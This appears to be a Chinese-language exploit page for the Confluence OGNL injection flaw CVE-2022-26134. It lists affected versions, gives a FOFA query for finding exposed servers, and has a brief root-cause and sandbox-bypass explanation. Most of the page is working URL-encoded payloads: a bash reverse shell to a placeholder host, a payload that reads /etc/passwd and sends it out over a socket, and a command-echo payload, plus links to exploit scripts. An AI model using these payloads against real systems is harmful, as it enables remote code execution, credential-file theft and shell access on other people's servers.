



# Confluence OGNL表达式注入命令执行漏洞（CVE-2022-26134）

## 利用条件：
- Confluence Server and Data Center >= 1.3.0、< 7.4.17、 < 7.13.7、 < 7.14.3、< 7.15.2、< 7.16.4、< 7.17.4、< 7.18.1

## 资产收集：
  fofa:`app="ATLASSIAN-Confluence"`

## POC
- 反弹shell
```shell
/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/1.1.1.1/8888%200%3E%261%27%29.start%28%29%22%29%7D/
```

[利用脚本](file/ConfluenceRCE_nc.py)
- 读取文件(/etc/passwd)
```shell
/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22var%20data%20%3D%20new%20java.lang.String%28java.nio.file.Files.readAllBytes%28java.nio.file.Paths.get%28%27/etc/passwd%27%29%29%29%3Bvar%20sock%20%3D%20new%20java.net.Socket%28%271.1.1.1%27%2C%208888%29%3B%20var%20output%20%3D%20new%20java.io.BufferedWriter%28new%20java.io.OutputStreamWriter%28sock.getOutputStream%28%29%29%29%3B%20output.write%28data%29%3B%20output.flush%28%29%3B%20sock.close%28%29%3B%22%29%7D/
```

- v7.15版本以下Response回显执行结果
```shell
/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```

[利用脚本](file/ConfluenceRCE_Response.py)

## 漏洞原因
Confluence 基于 Struts 架构，url请求访问，经过一系列 `Filter` 处理后，将进入Servlet 的分发器 `ConfluenceServletDispatcher`  
1. 调用 `ConfluenceServletDispatcher`的`serviceAction` 函数.
2. 调用 `DefaultActionProxy` 的 `execute` 函数.
3. Struts Interceptor 拦截器对象对请求进行处理,迭代循环调用`DefaultActionInvocation#invoke`
4. 调用 `ActionChainResult#execute`
5. 调用 `translateVariables` 函数，传入参数 `namespace`，函数功能为 `OGNL` 表达式解析⚠️
6. `namespace` 取值为请求 `servletPath` 最后一个 `/` 之前的部分。⚠️
7. 修改URL成功触发 OGNL 表达式注入。⚠️

## 沙箱绕过
v7.15 系列开始，Confluence 在 OGNL 表达式解析时加入了沙箱设置，`isSafeExpression`函数对参数进行检查。
`java.lang.Runtime.getRuntime().exec()`函数在`unsafePropertyNames`黑名单里，所以v7.15系列以后无法使用exec()方法的poc

参考链接：https://unsafe.sh/go-113877.html  
